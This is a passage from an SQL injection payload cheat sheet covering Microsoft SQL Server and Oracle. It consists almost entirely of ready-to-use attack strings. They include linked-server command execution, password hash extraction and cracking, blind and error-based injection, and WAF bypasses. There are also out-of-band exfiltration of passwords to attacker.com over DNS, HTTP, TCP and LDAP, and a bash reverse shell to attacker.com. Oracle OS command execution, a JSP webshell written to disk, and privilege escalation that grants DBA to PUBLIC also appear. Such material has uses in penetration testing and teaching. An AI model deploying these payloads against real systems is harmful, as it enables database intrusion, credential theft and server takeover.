# Revert impersonation
'; REVERT--

# Impersonate at database level
'; EXECUTE AS USER = 'dbo'--

# Nested impersonation
'; EXECUTE AS LOGIN = 'login1'; EXECUTE AS LOGIN = 'sa'--
```

#### Exploiting Linked Servers

```sql
# List linked servers
' UNION SELECT name,product,provider,data_source FROM sys.servers WHERE is_linked=1--
' UNION SELECT name,NULL,NULL FROM master..sysservers WHERE srvstatus&2=2--

# Query linked server
' UNION SELECT * FROM OPENQUERY([LINKED_SERVER], 'SELECT @@version')--
' UNION SELECT * FROM [LINKED_SERVER].master.dbo.sysdatabases--

# Execute on linked server
'; EXEC('SELECT @@version') AT [LINKED_SERVER]--
'; EXEC('xp_cmdshell ''whoami''') AT [LINKED_SERVER]--

# Exploit trust relationships (command execution via linked server chain)
'; EXEC('EXEC(''xp_cmdshell ''''whoami'''''') AT [SECOND_SERVER]') AT [FIRST_SERVER]--

# Create ad-hoc linked server
'; EXEC sp_addlinkedserver 'attacker_server', '', 'SQLNCLI', 'internal.server.local'--
'; EXEC sp_addlinkedsrvlogin 'attacker_server', 'false', NULL, 'sa', 'password'--
' UNION SELECT * FROM OPENQUERY([attacker_server], 'SELECT @@version')--
```

#### Password Hash Attacks

```sql
# Extract password hashes
' UNION SELECT name,password_hash,NULL FROM sys.sql_logins--

# MSSQL password hash format:
# 0x0100... (SHA-1) - SQL Server 2000
# 0x0200... (SHA-512) - SQL Server 2012+

# Crack with hashcat
# Mode 1731: MSSQL (2012, 2014)
# Mode 132: MSSQL (2000)
hashcat -m 1731 -a 0 hash.txt wordlist.txt

# Or use mssql-crack.py scripts
```

### MSSQL Time-Based Blind SQLi

```sql
# Using WAITFOR DELAY
'; WAITFOR DELAY '00:00:05'--
'; IF (1=1) WAITFOR DELAY '00:00:05'--

# Conditional delays
'; IF (LENGTH(DB_NAME())>5) WAITFOR DELAY '00:00:05'--
'; IF (SUBSTRING(DB_NAME(),1,1)='m') WAITFOR DELAY '00:00:05'--
'; IF (ASCII(SUBSTRING(DB_NAME(),1,1))>100) WAITFOR DELAY '00:00:05'--

# Using WAITFOR TIME (wait until specific time)
'; WAITFOR TIME '23:59:59'--  # Waits until that time

# Alternative: Heavy query
' AND (SELECT COUNT(*) FROM sys.all_columns A CROSS JOIN sys.all_columns B CROSS JOIN sys.all_columns C)>0--

# Benchmark-style delay
'; DECLARE @i int = 0; WHILE @i < 10000000 BEGIN SET @i = @i + 1 END--
```

### MSSQL Error-Based SQLi

```sql
# Type conversion errors
' AND 1=CONVERT(int,@@version)--
' AND 1=CONVERT(int,DB_NAME())--
' AND 1=CONVERT(int,(SELECT TOP 1 name FROM sys.tables))--
' AND 1=CONVERT(int,(SELECT TOP 1 password FROM users))--

# Arithmetic errors
' AND 1/0=1--  # Division by zero
' AND 1/(SELECT CASE WHEN (1=1) THEN 0 ELSE 1 END)=1--

# XML errors
' AND 1=CONVERT(int,(SELECT CONVERT(XML,'<x>'+@@version+'</x>').value('.','varchar(max)')))--

# Constraint violation
'; INSERT INTO users (id) VALUES (1)--  # If id=1 exists, reveals table structure

# Using FOR XML PATH
' AND 1=(SELECT TOP 1 password FROM users FOR XML PATH(''))--
```

### MSSQL Boolean-Based Blind SQLi

```sql
# Basic boolean tests
' AND 1=1--                           # TRUE
' AND 1=2--                           # FALSE
' AND 'a'='a'--                       # TRUE
' AND 'a'='b'--                       # FALSE

# String comparison
' AND SUBSTRING(DB_NAME(),1,1)='m'--
' AND LEFT(@@version,9)='Microsoft'--

# ASCII comparison
' AND ASCII(SUBSTRING(DB_NAME(),1,1))>100--
' AND ASCII(SUBSTRING((SELECT TOP 1 password FROM users),1,1))=97--

# Length checks
' AND LEN(DB_NAME())>5--
' AND LEN((SELECT TOP 1 password FROM users))=32--

# Pattern matching
' AND DB_NAME() LIKE 'm%'--
' AND (SELECT TOP 1 username FROM users) LIKE 'admin'--

# Exists checks
' AND EXISTS(SELECT * FROM users WHERE username='admin')--
' AND EXISTS(SELECT * FROM sys.tables WHERE name='users')--

# Count checks
' AND (SELECT COUNT(*) FROM users)>10--
' AND (SELECT COUNT(*) FROM users WHERE role='admin')=1--
```

### MSSQL Out-of-Band Exploitation

```sql
# UNC path injection (SMB relay)
'; EXEC master..xp_dirtree '\\attacker.com\share'--
'; EXEC master..xp_fileexist '\\attacker.com\share\file.txt'--

# DNS exfiltration via UNC
'; DECLARE @data varchar(1000); SET @data=(SELECT TOP 1 password FROM users); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"')--

# HTTP exfiltration
'; EXEC sp_OACreate 'MSXML2.ServerXMLHTTP', @obj OUTPUT;
  EXEC sp_OAMethod @obj, 'open', NULL, 'GET', 'http://attacker.com/exfil?data='+(SELECT TOP 1 password FROM users), false;
  EXEC sp_OAMethod @obj, 'send';
  EXEC sp_OADestroy @obj--

# Using certutil
'; EXEC xp_cmdshell 'certutil -urlcache -split -f http://attacker.com/exfil?data=%USERNAME%'--

# PowerShell web request
'; EXEC xp_cmdshell 'powershell -c "IWR http://attacker.com/exfil -Method POST -Body (Get-Content C:\passwords.txt)"'--
```

## 🔮 Chapter 14: Oracle Database

### Oracle-Specific Features

```
Oracle Database Characteristics:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
✓ Most feature-rich commercial RDBMS
✓ PL/SQL procedural language
✓ Advanced security (Virtual Private Database)
✓ Extensive built-in packages (DBMS_*)
✓ Java integration (DBMS_JAVA)
✓ XML support (XMLType, XDB)
✓ Advanced Queuing
✓ Flashback technology
✓ RAC (Real Application Clusters)

Versions:
Oracle 10g  - Grid computing introduction
Oracle 11g  - Better compression, partitioning
Oracle 12c  - Multitenant architecture
Oracle 18c  - Autonomous features
Oracle 19c  - Long-term support release
Oracle 21c  - Innovation release
Oracle 23c  - Latest features

Critical Difference:
Oracle REQUIRES a FROM clause in SELECT statements!
Use: FROM dual (dummy table with one row)
```

### Oracle System Catalogs

```sql
# Key system views (ALL_*, USER_*, DBA_*)
all_tables          # All accessible tables
user_tables         # Tables owned by current user
dba_tables          # All tables (requires DBA privilege)

all_tab_columns     # All accessible columns
user_tab_columns    # Columns in user's tables
dba_tab_columns     # All columns (DBA only)

all_users           # All database users
dba_users           # User account details (DBA only)

v$version           # Database version
v$instance          # Instance information
v$database          # Database information
```

### Complete Oracle Exploitation Payloads

#### Database Enumeration

```sql
# Current user
' UNION SELECT user,NULL,NULL FROM dual--
' UNION SELECT SYS_CONTEXT('USERENV','SESSION_USER'),NULL,NULL FROM dual--

# Database version
' UNION SELECT banner,NULL,NULL FROM v$version WHERE rownum=1--
' UNION SELECT version,NULL,NULL FROM v$instance--

# Database name
' UNION SELECT name,NULL,NULL FROM v$database--
' UNION SELECT SYS.DATABASE_NAME,NULL,NULL FROM dual--
' UNION SELECT global_name,NULL,NULL FROM global_name--

# Instance information
' UNION SELECT instance_name,host_name,version FROM v$instance--

# Current schema
' UNION SELECT SYS_CONTEXT('USERENV','CURRENT_SCHEMA'),NULL,NULL FROM dual--

# Database ID
' UNION SELECT dbid,NULL,NULL FROM v$database--
' UNION SELECT SYS_CONTEXT('USERENV','DB_NAME'),NULL,NULL FROM dual--

# Service name
' UNION SELECT SYS_CONTEXT('USERENV','SERVICE_NAME'),NULL,NULL FROM dual--

# IP address
' UNION SELECT SYS_CONTEXT('USERENV','IP_ADDRESS'),NULL,NULL FROM dual--

# Session information
' UNION SELECT SYS_CONTEXT('USERENV','SESSIONID'),SYS_CONTEXT('USERENV','OS_USER'),NULL FROM dual--
```

#### Table & Column Enumeration

```sql
# List tables (user's tables)
' UNION SELECT table_name,NULL,NULL FROM user_tables--
' UNION SELECT table_name,NULL,NULL FROM user_tables WHERE rownum<=10--

# List all accessible tables
' UNION SELECT owner||'.'||table_name,NULL,NULL FROM all_tables--
' UNION SELECT table_name,NULL,NULL FROM all_tables WHERE owner='SYSTEM'--

# Aggregate table names
' UNION SELECT LISTAGG(table_name,',') WITHIN GROUP (ORDER BY table_name),NULL,NULL FROM user_tables--

# Table with row counts
' UNION SELECT table_name,num_rows,NULL FROM user_tables--
' UNION SELECT table_name,TO_CHAR(num_rows),NULL FROM user_tables--

# List columns from specific table
' UNION SELECT column_name,data_type,NULL FROM all_tab_columns WHERE table_name='USERS'--
' UNION SELECT column_name,NULL,NULL FROM all_tab_columns WHERE table_name='USERS' AND owner='HR'--

# Get full table structure
' UNION SELECT column_name,data_type,TO_CHAR(data_length) FROM all_tab_columns WHERE table_name='USERS'--

# Find columns by name pattern
' UNION SELECT table_name,column_name,NULL FROM all_tab_columns WHERE column_name LIKE '%PASS%'--
' UNION SELECT table_name,column_name,NULL FROM all_tab_columns WHERE column_name LIKE '%USER%'--
' UNION SELECT table_name,column_name,NULL FROM all_tab_columns WHERE column_name LIKE '%EMAIL%'--

# List all tablespaces
' UNION SELECT tablespace_name,NULL,NULL FROM user_tablespaces--
' UNION SELECT tablespace_name,NULL,NULL FROM dba_tablespaces--
```

#### User & Privilege Enumeration

```sql
# List all users
' UNION SELECT username,NULL,NULL FROM all_users--
' UNION SELECT username,account_status,NULL FROM dba_users--  # Requires DBA

# Current user privileges
' UNION SELECT privilege,NULL,NULL FROM session_privs--
' UNION SELECT LISTAGG(privilege,',') WITHIN GROUP (ORDER BY privilege),NULL,NULL FROM session_privs--

# Check for DBA privilege
' UNION SELECT username,NULL,NULL FROM dba_users WHERE username=user--

# User roles
' UNION SELECT granted_role,NULL,NULL FROM user_role_privs--
' UNION SELECT grantee,granted_role,NULL FROM dba_role_privs WHERE grantee=user--

# System privileges
' UNION SELECT grantee,privilege,admin_option FROM dba_sys_privs WHERE grantee=user--

# Object privileges
' UNION SELECT owner,table_name,privilege FROM user_tab_privs--

# Check specific privileges
' UNION SELECT COUNT(*),NULL,NULL FROM session_privs WHERE privilege='DBA'--
' UNION SELECT COUNT(*),NULL,NULL FROM session_privs WHERE privilege='CREATE TABLE'--
' UNION SELECT COUNT(*),NULL,NULL FROM session_privs WHERE privilege='CREATE PROCEDURE'--

# Password hashes (DBA required)
' UNION SELECT name,password,spare4 FROM sys.user$--  # Older versions
' UNION SELECT name,password,NULL FROM sys.user$ WHERE type#=1--
```

#### Data Extraction

```sql
# Basic extraction (note: must match column count exactly)
' UNION SELECT username,password,email FROM users WHERE rownum=1--

# All data types must be compatible - cast to VARCHAR2
' UNION SELECT TO_CHAR(id),username,password FROM users WHERE rownum=1--
' UNION SELECT username,password,NULL FROM users WHERE rownum=1--

# Multiple rows using ROWNUM
' UNION SELECT username,password,NULL FROM users WHERE rownum=1--
' UNION SELECT username,password,NULL FROM (SELECT username,password,ROWNUM rn FROM users) WHERE rn=2--
' UNION SELECT username,password,NULL FROM (SELECT username,password,ROWNUM rn FROM users) WHERE rn=3--

# Alternative: Using row limiting (Oracle 12c+)
' UNION SELECT username,password,NULL FROM users OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY--
' UNION SELECT username,password,NULL FROM users OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY--

# Concatenate columns
' UNION SELECT username||':'||password,NULL,NULL FROM users WHERE rownum=1--
' UNION SELECT username||':'||password||':'||email,NULL,NULL FROM users WHERE rownum=1--

# Aggregate all rows
' UNION SELECT LISTAGG(username||':'||password,',') WITHIN GROUP (ORDER BY username),NULL,NULL FROM users--

# Using XMLAGG for aggregation
' UNION SELECT RTRIM(XMLAGG(XMLELEMENT(e,username||':'||password||',')).EXTRACT('//text()'),','),NULL,NULL FROM users--

# Convert to XML
' UNION SELECT XMLELEMENT("user",XMLFOREST(username,password,email)),NULL,NULL FROM users WHERE rownum=1--

# Order results
' UNION SELECT username,password,NULL FROM (SELECT username,password FROM users ORDER BY id) WHERE rownum<=5--
```

#### Oracle-Specific Functions

```sql
# String manipulation
' UNION SELECT CONCAT(username,password),NULL,NULL FROM users WHERE rownum=1--
' UNION SELECT username||password,NULL,NULL FROM users WHERE rownum=1--  # || is concat
' UNION SELECT SUBSTR(password,1,16),NULL,NULL FROM users WHERE rownum=1--
' UNION SELECT SUBSTR(password,1,16),SUBSTR(password,17,16),NULL FROM users WHERE rownum=1--

# String functions
' UNION SELECT UPPER(username),LOWER(email),NULL FROM users WHERE rownum=1--
' UNION SELECT INITCAP(username),NULL,NULL FROM users WHERE rownum=1--  # First letter caps
' UNION SELECT TRIM(username),LTRIM(password),RTRIM(email) FROM users WHERE rownum=1--
' UNION SELECT REPLACE(password,'a','*'),NULL,NULL FROM users WHERE rownum=1--

# Length
' UNION SELECT LENGTH(password),LENGTHB(password),NULL FROM users WHERE rownum=1--  # chars vs bytes

# Encoding
' UNION SELECT RAWTOHEX(password),NULL,NULL FROM users WHERE rownum=1--
' UNION SELECT UTL_RAW.CAST_TO_VARCHAR2(UTL_ENCODE.BASE64_ENCODE(UTL_RAW.CAST_TO_RAW(password))),NULL,NULL FROM users WHERE rownum=1--

# Hashing
' UNION SELECT DBMS_OBFUSCATION_TOOLKIT.MD5(INPUT_STRING=>'password'),NULL,NULL FROM dual--
' UNION SELECT DBMS_CRYPTO.HASH(UTL_RAW.CAST_TO_RAW('password'),2),NULL,NULL FROM dual--  # 2=MD5

# Date/Time
' UNION SELECT TO_CHAR(SYSDATE,'YYYY-MM-DD HH24:MI:SS'),NULL,NULL FROM dual--
' UNION SELECT SYSTIMESTAMP,NULL,NULL FROM dual--

# Conditionals
' UNION SELECT CASE WHEN 1=1 THEN 'yes' ELSE 'no' END,NULL,NULL FROM dual--
' UNION SELECT DECODE(1,1,'yes','no'),NULL,NULL FROM dual--

# NULL handling
' UNION SELECT NVL(column_name,'default'),NULL,NULL FROM users WHERE rownum=1--
' UNION SELECT COALESCE(col1,col2,col3,'default'),NULL,NULL FROM users WHERE rownum=1--

# Type conversion
' UNION SELECT TO_CHAR(numeric_column),NULL,NULL FROM users WHERE rownum=1--
' UNION SELECT TO_NUMBER('123'),NULL,NULL FROM dual--
' UNION SELECT CAST(column AS VARCHAR2(100)),NULL,NULL FROM users WHERE rownum=1--
```

### Oracle File Operations

**Reading Files:**

```sql
# Using UTL_FILE (requires directory object)
# First, check available directories (DBA privilege needed)
' UNION SELECT directory_name,directory_path,NULL FROM all_directories--
' UNION SELECT directory_name,directory_path,NULL FROM dba_directories--

# Create directory object (requires CREATE ANY DIRECTORY)
'; CREATE OR REPLACE DIRECTORY MY_DIR AS '/tmp'--

# Read file
'; DECLARE
  f UTL_FILE.FILE_TYPE;
  line VARCHAR2(32767);
BEGIN
  f := UTL_FILE.FOPEN('MY_DIR','file.txt','R');
  UTL_FILE.GET_LINE(f,line);
  -- Process line
  UTL_FILE.FCLOSE(f);
END;--

# Read via SQL query
' UNION SELECT UTL_FILE.GET_LINE(UTL_FILE.FOPEN('MY_DIR','passwd','R'),1),NULL,NULL FROM dual--

# Using DBMS_LOB with BFILE
'; DECLARE
  l_bfile BFILE;
  l_clob CLOB;
BEGIN
  l_bfile := BFILENAME('MY_DIR','file.txt');
  DBMS_LOB.FILEOPEN(l_bfile);
  DBMS_LOB.LOADFROMFILE(l_clob,l_bfile,DBMS_LOB.GETLENGTH(l_bfile));
  DBMS_LOB.FILECLOSE(l_bfile);
END;--

# Using XXE (if XML functionality available)
' UNION SELECT EXTRACTVALUE(XMLType('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>'),'/root'),NULL,NULL FROM dual--

# Java-based file read (if DBMS_JAVA available)
' UNION SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper file:///etc/passwd'),NULL,NULL FROM dual--
```

**Writing Files:**

```sql
# Using UTL_FILE
'; DECLARE
  f UTL_FILE.FILE_TYPE;
BEGIN
  f := UTL_FILE.FOPEN('MY_DIR','output.txt','W');
  UTL_FILE.PUT_LINE(f,'Content to write');
  UTL_FILE.FCLOSE(f);
END;--

# Write webshell
'; DECLARE
  f UTL_FILE.FILE_TYPE;
BEGIN
  f := UTL_FILE.FOPEN('WEB_DIR','shell.jsp','W');
  UTL_FILE.PUT_LINE(f,'<%@ page import="java.io.*" %>');
  UTL_FILE.PUT_LINE(f,'<% String cmd = request.getParameter("cmd"); %>');
  UTL_FILE.PUT_LINE(f,'<% Process p = Runtime.getRuntime().exec(cmd); %>');
  UTL_FILE.FCLOSE(f);
END;--

# Using DBMS_XSLPROCESSOR (XXE for file write)
'; DECLARE
  xml CLOB := '<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<root>&send;</root>';
BEGIN
  DBMS_XSLPROCESSOR.valueOf(XMLType(xml),'/');
END;--
```

### Oracle Command Execution

#### Method 1: DBMS_SCHEDULER (Most Reliable)

```sql
# Create job to execute OS command
'; BEGIN
  DBMS_SCHEDULER.CREATE_JOB(
    job_name => 'evil_job',
    job_type => 'EXECUTABLE',
    job_action => '/bin/bash',
    number_of_arguments => 2,
    enabled => FALSE
  );
  DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('evil_job',1,'-c');
  DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('evil_job',2,'whoami > /tmp/output.txt');
  DBMS_SCHEDULER.ENABLE('evil_job');
  DBMS_SCHEDULER.RUN_JOB('evil_job');
END;--

# Check job status
' UNION SELECT job_name,state,NULL FROM dba_scheduler_jobs WHERE job_name='evil_job'--

# Cleanup
'; BEGIN
  DBMS_SCHEDULER.DROP_JOB('evil_job');
END;--

# Windows command execution
'; BEGIN
  DBMS_SCHEDULER.CREATE_JOB(
    job_name => 'evil_job',
    job_type => 'EXECUTABLE',
    job_action => 'C:\Windows\System32\cmd.exe',
    number_of_arguments => 2,
    enabled => FALSE
  );
  DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('evil_job',1,'/c');
  DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('evil_job',2,'whoami > C:\output.txt');
  DBMS_SCHEDULER.ENABLE('evil_job');
  DBMS_SCHEDULER.RUN_JOB('evil_job');
END;--
```

#### Method 2: Java Stored Procedures

```sql
# Enable Java (requires privileges)
'; EXEC DBMS_JAVA.SET_OUTPUT(2000)--

# Create Java class for command execution
'; CREATE OR REPLACE AND COMPILE JAVA SOURCE NAMED "OSCommand" AS
import java.io.*;
public class OSCommand {
  public static String exec(String cmd) {
    try {
      StringBuffer output = new StringBuffer();
      Process p = Runtime.getRuntime().exec(cmd);
      BufferedReader reader = new BufferedReader(
        new InputStreamReader(p.getInputStream())
      );
      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
      return output.toString();
    } catch (Exception e) {
      return e.toString();
    }
  }
}--

# Create PL/SQL wrapper
'; CREATE OR REPLACE FUNCTION exec_cmd(cmd VARCHAR2)
RETURN VARCHAR2
AS LANGUAGE JAVA
NAME 'OSCommand.exec(java.lang.String) return java.lang.String'--

# Grant necessary permissions (requires DBA)
'; BEGIN
  DBMS_JAVA.GRANT_PERMISSION(
    'SCHEMA_NAME',
    'SYS:java.io.FilePermission',
    '<<ALL FILES>>',
    'execute'
  );
  DBMS_JAVA.GRANT_PERMISSION(
    'SCHEMA_NAME',
    'SYS:java.lang.RuntimePermission',
    'writeFileDescriptor',
    ''
  );
  DBMS_JAVA.GRANT_PERMISSION(
    'SCHEMA_NAME',
    'SYS:java.lang.RuntimePermission',
    'readFileDescriptor',
    ''
  );
END;--

# Execute commands
' UNION SELECT exec_cmd('whoami'),NULL,NULL FROM dual--
' UNION SELECT exec_cmd('id'),NULL,NULL FROM dual--
' UNION SELECT exec_cmd('cat /etc/passwd'),NULL,NULL FROM dual--

# Reverse shell
' UNION SELECT exec_cmd('bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1"'),NULL,NULL FROM dual--
```

#### Method 3: UTL_TCP (Network Operations)

```sql
# Simple HTTP request
'; DECLARE
  c UTL_TCP.CONNECTION;
  ret_val PLS_INTEGER;
BEGIN
  c := UTL_TCP.OPEN_CONNECTION('attacker.com',80);
  ret_val := UTL_TCP.WRITE_LINE(c,'GET / HTTP/1.0');
  ret_val := UTL_TCP.WRITE_LINE(c);
  UTL_TCP.CLOSE_CONNECTION(c);
END;--

# Data exfiltration
'; DECLARE
  c UTL_TCP.CONNECTION;
  ret_val PLS_INTEGER;
  data VARCHAR2(4000);
BEGIN
  SELECT password INTO data FROM users WHERE rownum=1;
  c := UTL_TCP.OPEN_CONNECTION('attacker.com',4444);
  ret_val := UTL_TCP.WRITE_LINE(c,data);
  UTL_TCP.CLOSE_CONNECTION(c);
END;--
```

#### Method 4: DBMS_LDAP (DNS/LDAP Exfiltration)

```sql
# DNS exfiltration
'; DECLARE
  data VARCHAR2(100);
BEGIN
  SELECT password INTO data FROM users WHERE rownum=1;
  DBMS_LDAP.INIT(data||'.attacker.com',389);
END;--

# This triggers DNS lookup to: <password>.attacker.com
```

#### Method 5: XXE for Command Execution

```sql
# Using XML External Entity
'; DECLARE
  xml XMLType;
BEGIN
  xml := XMLType('<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
  %remote;
]>
<root>&send;</root>');
END;--

# evil.dtd on attacker server:
# <!ENTITY % payload SYSTEM "file:///c:/windows/win.ini">
# <!ENTITY % param1 "<!ENTITY send SYSTEM 'http://attacker.com/exfil?%payload;'>">
# %param1;
```

### Oracle Privilege Escalation

#### Exploiting PL/SQL Injection in Packages

```sql
# Many built-in packages run with DEFINER rights
# Find vulnerable packages
' UNION SELECT owner,object_name,NULL FROM all_procedures WHERE owner='SYS'--

# Example: DBMS_EXPORT_EXTENSION vulnerability (CVE-2006-2081)
# Older Oracle versions
'; SELECT DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('a','b','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''GRANT DBA TO PUBLIC'''';END;'';END;--','c','d','e','f') FROM dual--

# Other privilege escalation vectors
# CTX_OUTPUT.START_LOG - CVE-2007-1996
# DBMS_CDC_SUBSCRIBE - CVE-2007-5511
# DBMS_JVM_EXP_PERMS - CVE-2007-5512
```

#### SQL Injection in Triggers/Procedures

```sql
# If you can create procedures with AUTHID DEFINER
'; CREATE OR REPLACE PROCEDURE escalate
AUTHID DEFINER
AS
BEGIN
  EXECUTE IMMEDIATE 'GRANT DBA TO ' || USER;
END;--

'; EXEC escalate--
```

#### Exploiting Java Permissions

```sql
# If you can load Java classes
'; CREATE OR REPLACE AND COMPILE JAVA SOURCE NAMED "Escalate" AS
import java.sql.*;
public class Escalate {
  public static void exec() throws SQLException {
    Connection conn = DriverManager.getConnection("jdbc:default:connection:");
    Statement stmt = conn.createStatement();
    stmt.execute("GRANT DBA TO PUBLIC");
  }
}--

'; CREATE OR REPLACE PROCEDURE escalate_priv
AS LANGUAGE JAVA
NAME 'Escalate.exec()'--

'; EXEC escalate_priv--
```

### Oracle Time-Based Blind SQLi

```sql
# Using DBMS_LOCK.SLEEP (requires privilege)
' AND DBMS_LOCK.SLEEP(5)=0--
'; BEGIN DBMS_LOCK.SLEEP(5); END;--

# Conditional sleep
' AND (SELECT CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(5) ELSE 0 END FROM dual)=0--
' AND (SELECT CASE WHEN (LENGTH(user)>5) THEN DBMS_LOCK.SLEEP(5) ELSE 0 END FROM dual)=0--

# Using DBMS_PIPE.RECEIVE_MESSAGE (no special privilege needed)
' AND DBMS_PIPE.RECEIVE_MESSAGE('a',5)=1--
'; SELECT DBMS_PIPE.RECEIVE_MESSAGE('a',5) FROM dual--

# Conditional with RECEIVE_MESSAGE
' AND (SELECT CASE WHEN (user='SYS') THEN DBMS_PIPE.RECEIVE_MESSAGE('a',5) ELSE 0 END FROM dual)=1--
' AND (SELECT CASE WHEN (SUBSTR(user,1,1)='S') THEN DBMS_PIPE.RECEIVE_MESSAGE('a',5) ELSE 0 END FROM dual)=1--

# Using heavy queries
' AND (SELECT COUNT(*) FROM all_objects A, all_objects B)>0--
' AND (SELECT COUNT(*) FROM all_constraints A, all_constraints B, all_constraints C)>0--

# UTL_HTTP timeout
' AND UTL_HTTP.REQUEST('http://127.0.0.1:1234/','',5,1) IS NOT NULL--
```

### Oracle Error-Based SQLi

```sql
# Using CTXSYS.DRITHSX.SN
' AND CTXSYS.DRITHSX.SN(1,(SELECT user FROM dual))=1--
' AND CTXSYS.DRITHSX.SN(1,(SELECT banner FROM v$version WHERE rownum=1))=1--
' AND CTXSYS.DRITHSX.SN(1,(SELECT password FROM users WHERE rownum=1))=1--

# Using UTL_INADDR.GET_HOST_NAME
' AND UTL_INADDR.GET_HOST_NAME((SELECT user FROM dual))='a'--
' AND UTL_INADDR.GET_HOST_NAME((SELECT banner FROM v$version WHERE rownum=1))='a'--

# Using DBMS_XDB_VERSION.CHECKIN
' AND (SELECT DBMS_XDB_VERSION.CHECKIN((SELECT user FROM dual)) FROM dual) IS NOT NULL--

# Using DBMS_XDB_VERSION.MAKEVERSIONED
' AND (SELECT DBMS_XDB_VERSION.MAKEVERSIONED((SELECT user FROM dual)) FROM dual) IS NOT NULL--

# Using DBMS_XDB_VERSION.UNCHECKOUT
' AND (SELECT DBMS_XDB_VERSION.UNCHECKOUT((SELECT user FROM dual)) FROM dual) IS NOT NULL--

# Using XMLType
' AND (SELECT XMLType((SELECT user FROM dual)) FROM dual) IS NOT NULL--

# Type conversion
' AND TO_NUMBER((SELECT user FROM dual))=1--
' AND CAST((SELECT user FROM dual) AS NUMBER)=1--
```

### Oracle Boolean-Based Blind SQLi

```sql
# Basic tests (remember: FROM dual required!)
' AND 1=1--                                    # TRUE
' AND 1=2--                                    # FALSE
' AND 'a'='a'--                               # TRUE - won't work without FROM
' AND (SELECT 'a' FROM dual)='a'--            # TRUE - correct syntax

# String extraction
' AND (SELECT SUBSTR(user,1,1) FROM dual)='S'--
' AND (SELECT SUBSTR((SELECT password FROM users WHERE rownum=1),1,1) FROM dual)='a'--

# ASCII comparison
' AND (SELECT ASCII(SUBSTR(user,1,1)) FROM dual)>100--
' AND (SELECT ASCII(SUBSTR((SELECT password FROM users WHERE rownum=1),1,1)) FROM dual)=97--

# Length checks
' AND (SELECT LENGTH(user) FROM dual)>3--
' AND (SELECT LENGTH((SELECT password FROM users WHERE rownum=1)) FROM dual)=32--

# Pattern matching
' AND (SELECT user FROM dual) LIKE 'SYS%'--
' AND (SELECT REGEXP_LIKE(user,'^SYS') FROM dual)=1--

# Exists checks
' AND EXISTS(SELECT * FROM users WHERE username='admin')--
' AND EXISTS(SELECT * FROM all_tables WHERE table_name='USERS')--

# Count checks
' AND (SELECT COUNT(*) FROM users)>10--
' AND (SELECT COUNT(*) FROM users WHERE role='admin')=1--

# Bitwise extraction (more efficient)
' AND BITAND(ASCII(SUBSTR((SELECT user FROM dual),1,1)),1)=1--
' AND BITAND(ASCII(SUBSTR((SELECT user FROM dual),1,1)),2)=2--
```

### Oracle WAF Bypass Techniques

```sql
# Comment variations
'--comment
'/*comment*/

# Case variation
' UnIoN SeLeCt NULL,NULL,NULL FROM dual--

# Whitespace alternatives
'/**/UNION/**/SELECT/**/NULL,NULL,NULL/**/FROM/**/dual--
' UNION%09SELECT%09NULL,NULL,NULL%09FROM%09dual--  # Tab
' UNION%0ASELECT%0ANULL,NULL,NULL%0AFROM%0Adual--  # Newline

# Alternative syntax
' UNION ALL SELECT NULL,NULL,NULL FROM dual--
' UNION DISTINCT SELECT NULL,NULL,NULL FROM dual--

# Using CHR() for encoding
' UNION SELECT CHR(83)||CHR(89)||CHR(83),NULL,NULL FROM dual--  # 'SYS'

# Hex encoding (limited use in Oracle)
' UNION SELECT RAWTOHEX('SYS'),NULL,NULL FROM dual--

# Nested functions
' UNION SELECT (SELECT user FROM dual),NULL,NULL FROM dual--

# Alternative quote characters
q'[string]'
q'{string}'
q'<string>'

Example:
' UNION SELECT q'[admin's password]',NULL,NULL FROM dual--

# Using DBMS_ASSERT to bypass filters
' UNION SELECT DBMS_ASSERT.ENQUOTE_LITERAL('test'),NULL,NULL FROM dual--

# N prefix for national character set
' UNION SELECT N'test',NULL,NULL FROM dual--
```

### Oracle Out-of-Band Exploitation

```sql
# UTL_HTTP for HTTP requests
'; DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
  data VARCHAR2(4000);
BEGIN
  SELECT password INTO data FROM users WHERE rownum=1;
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfil?data='||data);
  resp := UTL_HTTP.GET_RESPONSE(req);
  UTL_HTTP.END_RESPONSE(resp);
END;--

# UTL_INADDR for DNS exfiltration
'; DECLARE
  data VARCHAR2(100);
BEGIN
  SELECT password INTO data FROM users WHERE rownum=1;
  DBMS_OUTPUT.PUT_LINE(UTL_INADDR.GET_HOST_ADDRESS(data||'.attacker.com'));
EXCEPTION WHEN OTHERS THEN NULL;
END;--

# HTTPURIType for HTTP requests
' UNION SELECT HTTPURIType('http://attacker.com/exfil?data='||(SELECT password FROM users WHERE rownum=1)).getclob(),NULL,NULL FROM dual--

# XXE via XMLType
'; DECLARE
  xml XMLType;
  data VARCHAR2(4000);
BEGIN
  SELECT password INTO data FROM users WHERE rownum=1;
  xml := XMLType('<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://attacker.com/exfil?data='||data||'">
  %remote;
]>
<root/>');
END;--

# DBMS_LDAP for LDAP/DNS
'; DECLARE
  s DBMS_LDAP.SESSION;
  data VARCHAR2(100);
BEGIN
  SELECT password INTO data FROM users WHERE rownum=1;
  s := DBMS_LDAP.INIT(data||'.attacker.com',389);
